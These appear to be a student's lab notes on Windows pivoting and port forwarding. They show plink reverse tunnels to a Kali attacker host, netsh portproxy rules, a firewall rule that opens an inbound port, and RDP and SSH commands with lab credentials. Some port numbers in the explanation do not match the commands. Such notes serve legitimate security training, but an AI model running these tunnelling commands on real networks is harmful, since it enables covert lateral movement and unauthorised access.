 ------------------------------------------------------------->
	- [We are presented with a prompt asking if we want to store the server key in the cache.] <------------------------------------------------------------------
		- not possible to accept the SSH client key chache prompt non-tty shell on linux
		- can use:
			- **cmd.exe /c echo y**
			- full example:
				- ```cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l kali -pw $FEbruary1496$ -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.187```
	- confirm port has opened on Kali
		- ```ss -ntplu```

![[Pasted image 20240123212934.png]]

- RDP into tgt machine
	- ```xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833```

### Netsh
	-native windows 
	-requires admin priv to create port forward on Windows
	
- Network Shell
- Port Forward
		-requires admin priv or UAC
	- *portproxy*
	- *subcontext*

![[Pasted image 20240123214926.png]]

- Example:
	- RDP directly into MULTISERVER03 from our Kali
		- ```xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.200.64
	- Open Admin cmd.exe
	- Set up **netsh**
		- ```netsh interface portproxy add v4tov4 listenport=4545 listenaddress=192.168.200.64 connectport=4545 connectaddress=10.4.200.215```
			- **netsh interface** **portproxy** **add** =  add portproxy rule
			-  (**v4tov4**) = IPv4 listener that is forwarded to an IPv4 port
			- This will listen on port 2222 on the external-facing interface (**listenport=2222 listenaddress=192.168.50.64**)
			- forward packets to port 22 on PGDATABASE01 (**connectport=22 connectaddress=10.4.50.215**).
	- confirm on tgt
		- ```netstat -anp TCP | find "4545"```
	- confirm on tgt v2
		- ```netsh interface portproxy show all```
	- ![[Pasted image 20240123215955.png]]

	- Blocked by Firewall
		- ![[Pasted image 20240123220116.png]]
	- Poke a hole in the firewall ([remember to plug the hole after])
	- Use the **netsh advfirewall firewall** subcontext to create the holeand **add rule** command
		- ```netsh advfirewall firewall add rule name="port_forward_ssh_4545" protocol=TCP dir=in localip=192.168.200.64 localport=4545 action=allow```
		- dir=in --> incoming traffic
	- SSH to port 2222 on MULTISERVER03, as though connecting to port 22 on PGDATABASE01.
		- ```ssh database_admin@192.168.200.64 -p4545```

